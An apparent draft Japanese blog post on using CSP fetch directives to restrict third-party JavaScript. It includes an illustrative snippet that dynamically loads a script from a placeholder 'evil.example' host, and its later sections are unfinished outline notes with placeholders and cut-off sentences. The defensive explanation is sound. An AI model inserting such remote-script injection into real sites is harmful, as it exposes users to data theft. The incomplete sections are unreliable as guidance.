 # CSP（Content Security Policy）Fetch ディレクティブ活用の現実解

こんにちは、エンジニア & 安全確保支援士の中山です。

広告掲載や Web 解析や SNS 連携等を目的として、しばしば Web Application に 3rd-party JavaScript を導入することがあります。一方で 3rd-party JavaScript には Web Application を利用するユーザーに悪影響を与えるリスクが存在するため、導入とあわせたリスク対策も必要となります。そこで、今回の記事では Content Security Policy（以下 CSP）の Fetch ディレクティブを活用した Web Application のセキュリティー強化の取り組みについてお伝えしたいと思います。

## CSP の Fetch ディレクティブとは

詳しくは [W3C 仕様](https://www.w3.org/TR/CSP3/) をご確認頂くとして、CSP の Fetch ディレクティブとはサブリソースの読み込みやインライン JavaScript の実行を制限するための Web ブラウザに対する指示のことです。Web Application が

```
Content-Security-Policy: script-src 'self'
```

のような応答ヘッダを送信したり

```
<meta http-equiv="Content-Security-Policy" content="script-src 'self'" />
```

のような META 要素をコンテンに記載することで、指示に応じた制限が適用され、結果として以下のようなセキュリティー上の効果が期待できます。

- XSS リスクの軽減
- ある 3rd-party JavaScript から piggyback で読み込まれる意図しない 3rd-party JavaScript の実行抑制
- 外部ドメインへの意図しないデータ転送の抑制

## メディアのセキュリティー課題と対策

Web Application のセキュリティー対策と CSP Fetch ディレクティブの関係性についてもう少し詳しく述べたいと思います。

Web Application が 3rd-party JavaScript（例えば広告タグや Web 解析ツール、SNS 連携機能等）を読み込むとき、もし 3rd-party に悪意があったり、悪意はなくとも別な攻撃者に改変されていた場合、Web Application 上に表示されるデータが盗まれたり [フィッシングサイトに誘導](https://blog.techscore.com/entry/2022/08/24/150000) さてしまったり、といったリスクが発生します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec01.png' />

こうしたリスクには Same Origin Policy を利用して 3rd-party JavaScript が実行されるドメインを分離する対策が有効です。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec02.png' />

ただし 3rd-party JavaScript がその目的を達成するために Web Application の DOM にアクセスする必要がある場合（例えば広告のビューアビリティー計測など）、ドメインを分離する対策は採用できません。とはいえ、信頼できる安全な 3rd-party JavaScript ならば問題はないでしょう。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec03.png' />

ところが、ある事業者の 3rd-party JavaScript から別な事業者の 3rd-party JavaScript が読み込まれるケースも存在します。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec04.png' />

例えば Web Application が以下のマークアップを含み

```
<script src='https://hoge.example/hoge.js'></script>
```

さらに hoge.js が以下のようなコードを含む場合に evil.js が読み込まれます。

```
let script = document.createElement('SCRIPT');
script.src = 'https://evil.example/evil.js';
document.getElementsByTagName('SCRIPT').item(0).parentNode.appendChild(script);
```

こうした 3rd-party JavaScript 読み込みが複数回実行されることもあり、そうなるともはや安全性の確認は困難です。行儀の悪い事業者の 3rd-party JavaScript がコンテンツ情報を勝手に収集している … なんてこともあるかもしれません。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec05.png' />

このような場合に CSP の Fetch ディレクティブを使うことで、ホワイトリストで許可していないサブリソースの読み込みを制限することができます。

<img src='https://raw.githubusercontent.com/nakayama-kazuki/202x/main/CSP/sec06.png' />

## CSP による対策と次の課題

Same Origin Policy と

一方でメディアサービスなどの Web Application の場合は多くの 3rd-party JavaScript を導入しています。導入を把握している 3rd-party JavaScript の範囲ならば管理することは可能かもしれませんが、


例えば総務省の

その全ての安全性を確認することは現実的ではないかもしれません。


★例の知らない間に 90 個のタグとか（どこかの引用）

★それを CSP の Fetch ディレクティブで対策
★絵で示す
★ところが 3rd-party ツールの場合のホワイトリスト管理の難しさ

## 現実解の模索

★ティアを分けた対応（ブロック + サンプリングレポートと発見的統制 + 受容）
★イシューととりうる HOW のマトリクス


ゼロリスク = 違反時の停止
	インライン
		とめたいなら nonce
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		読み込むサブリソースを全てホワイトリスト登録。ただし 3p スクリプトが動作不全
		チェックしないなら strict-dynamic でいい
発見的統制 = 違反時のレポート
	インライン
		レポートしたいなら nonce★XSS のケースのレポートを見てみる
		受容するなら 'unsafe-inline'
	3rd-party JavaScript からの piggyback
		自ドメイン以外をレポートで発見的統制

★これ AI にも聞いてみる

## メディアでのティア 2 実験と今後の運用

★TBD
★定期的にレポートを出しサービスの技術管掌担当にチェックしてもらう

## その他考察

★Proxy とサンプリング
★TM での CSP 配信検討と
★nonce 面倒
★まとめとして（AI 先生に言われたような内容で）セキュリティー強化を



